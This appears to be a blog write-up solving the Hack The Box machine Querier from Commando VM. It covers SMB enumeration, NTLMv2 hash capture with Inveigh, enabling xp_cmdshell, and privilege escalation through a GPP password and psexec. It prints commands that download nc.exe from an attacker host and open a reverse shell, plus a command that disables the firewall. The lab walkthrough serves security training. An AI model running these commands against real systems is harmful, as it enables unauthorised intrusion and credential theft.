 ```yaml
---
layout: post
title: Hack The Box - Querier (Commando)
categories: hack-the-box
tags: [Windows, RCE, smb]
image: /hackthebox/querier-2/0.png
---
```


<hr>
### Quick Summary
#### Hey guys this is the second post for Querier, you can read the first post [here](/hack-the-box/querier). In the first post I solved it with kali, In this post I will solve it with commando vm. Querier's ip is `10.10.10.125` I added it to `C:\Windows\System32\drivers\etc\hosts` as `querier.htb`. Let's jump right in !
![](/images/hackthebox/querier-2/0.png)
<hr>
### Nmap
#### As always we will start with `nmap` to scan for open ports and services :
`nmap -sV -sT -sC querier.htb`
![](/images/hackthebox/querier-2/1.png)
#### We got `smb` and `mssql` server on port 1433. We don't have credentials for `mssql` so let's check `smb`.
<br>
<hr>
### Smb
#### We need to list the shares, We can do that using `net view` :
`net view querier.htb`
![](/images/hackthebox/querier-2/2.png)
#### It only showed us `Reports` because it's the only share that we can access anonymously which is nice. 
#### We can mount the share from `cmd` with `net use` :
`net use Z: \\querier.htb\Reports /persistent:yes`
![](/images/hackthebox/querier-2/3.png)
<br>
<br>
![](/images/hackthebox/querier-2/4.png)
#### We can also do it from the file explorer :
![](/images/hackthebox/querier-2/5.png)
<br>
<br>
![](/images/hackthebox/querier-2/6.png)
<hr>
### MSSQL
#### I used `olevba` to get credentials from the excel file like I did in the [first post](/hack-the-box/querier/) :
![](/images/hackthebox/querier-2/7.png)
#### To connect to the `mssql` server I will use [HeidiSQL](https://www.heidisql.com/) :
![](/images/hackthebox/querier-2/8.png)
#### However, authentication failed :
![](/images/hackthebox/querier-2/9.png)
#### I tried windows authentication :
![](/images/hackthebox/querier-2/10.png)
#### But it also failed because it was trying as guest not reporting :
![](/images/hackthebox/querier-2/11.png)
#### To solve this we can use `runas` to run `heidi` as reporting :
`runas /netonly /user:QUERIER\reporting cmd.exe`
![](/images/hackthebox/querier-2/12.png)
#### From the new `cmd` session I ran `heidi` :
![](/images/hackthebox/querier-2/13.png)
#### Now windows authentication worked :
![](/images/hackthebox/querier-2/14.png)
#### Got permission denied for `xp_cmdshell` :
![](/images/hackthebox/querier-2/15.png)
#### We can run a fake `smb` server to capture credentials using a tool called `Inveigh` which works like responder. From `powershell` I imported `Inveigh` (`Import-Module C:\Tools\Inveigh\Inveigh.ps1`). Then I disabled the firewall (`netsh advfirewall set allprofiles state off`) and invoked `Inveigh` (`Invoke-Inveigh -IP 10.10.xx.xx -ConsoleOutput Y`). 
#### From `Heidi` I used `xp_dirtree` :
`EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/querier-2/16.png)
#### `Inveigh` captured the `NTLMv2` hash for `mssql-svc` :
![](/images/hackthebox/querier-2/17.png)
#### After cracking the hash on another box the password is `corporate568`. Now we can use `runas` to run `Heidi` as `mssql-svc` :
`runas /netonly /user:QUERIER\mssql-svc "C:\Program Files\HeidiSQL\heidisql.exe"`
![](/images/hackthebox/querier-2/18.png)
#### Queries to enable `xp_cmdshell` :
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
![](/images/hackthebox/querier-2/19.png)
<br>
<br>
![](/images/hackthebox/querier-2/20.png)
#### Great, we got `RCE`. I ran a python server to host `nc.exe` then I downloaded it on the box and got a reverse shell :
```
EXEC xp_cmdshell 'powershell Invoke-WebRequest -o C:\Users\mssql-svc\Desktop\nc.exe http://10.10.xx.xx/nc.exe';
EXEC xp_cmdshell 'C:\Users\mssql-svc\Desktop\nc.exe -e cmd.exe 10.10.xx.xx 1337'
```
![](/images/hackthebox/querier-2/21.png)
<br>
<br>
![](/images/hackthebox/querier-2/22.png)
#### We owned user.
<br>
<hr>
### GPP, Privilege Escalation, Root Flag
#### As I said in the [first post](/hack-the-box/querier/), when I checked group policy passwords I found Administrator's password. There are privilege escalation enumeration scripts for Windows like `LinEnum.sh` for Linux one of them is [`powerup.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) and it checks for group policy passwords. Let's check that one :
![](/images/hackthebox/querier-2/23.png)
<br>
<br>
![](/images/hackthebox/querier-2/24.png)
<br>
<br>
![](/images/hackthebox/querier-2/25.png)
#### It also decrypts the password which is nice. Password : `MyUnclesAreMarioAndLuigi!!1!`
#### Now we can use `psexec` to get a shell as Administrator. I used `runas` to start `cmd` as `QUERIER\Administrator` then I used `psexec` :
`runas /netonly /user:QUERIER\Administrator cmd.exe`
<br>
<br>
`psexec \\querier.htb cmd`
![](/images/hackthebox/querier-2/26.png)
#### And we owned root !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### First write-up : [Hack The Box - Querier](/hack-the-box/querier)
#### Previous Hack The Box write-up : [Hack The Box - Flujab](/hack-the-box/flujab/)
#### Next Hack The Box write-up : [Hack The Box - Netmon](/hack-the-box/netmon/)
<hr>
